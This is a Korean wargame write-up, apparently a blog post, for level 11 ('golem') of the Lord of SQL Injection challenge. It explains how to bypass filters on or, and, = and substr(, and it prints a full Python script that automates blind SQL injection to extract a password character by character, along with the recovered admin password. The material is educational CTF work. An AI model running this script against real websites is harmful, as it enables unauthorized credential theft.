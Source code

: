 ```yaml
---
title: LOS - 11번 golem
category: [Wargame, Lord of SQL Injection]
---
```


# [11] golem

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fde8A6H%2FbtrniTeLG61%2Fp8roAQzC5qnjr2AfgsXGW1%2Fimg.png">

## 풀이

이번 문제에서는


① or/and

② substr(

③ =


를 필터링하고 있다.

<br>

또한 근본적으로는 pw를 알아야 풀 수 있는 Blind SQLi 문제이다. (∵ addslashes) 

이전에 써먹었던 **자동화 코드**에 **필터링 우회**를 적용해주면 될 것 같다.

<br> 

먼저, 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.


```python
def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```


① or ⇒ \|\|

② and ⇒ %26%26

③ = ⇒ like (문자열 일치 확인)

④ = ⇒ > (ASCII 대소 비교)

- 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 ⇒ {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```


① or ⇒ \|\|

② and ⇒ %26%26

③ substr( ⇒ substring(

④ = ⇒ like (문자열 일치 확인)

⑤ = ⇒ > (ASCII 대소 비교)

- 마찬가지로, 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

**수정된 Python 자동화 코드의 전문**은 다음과 같다.


```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FHcecl%2FbtrnkxIU6Hk%2FwUsmDKLf63bp6zlHii4aZ0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `77d6290b` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbHY8zw%2FbtrnkvRSuaC%2FiiZqhAuhNLq6tKpRIWSj20%2Fimg.png">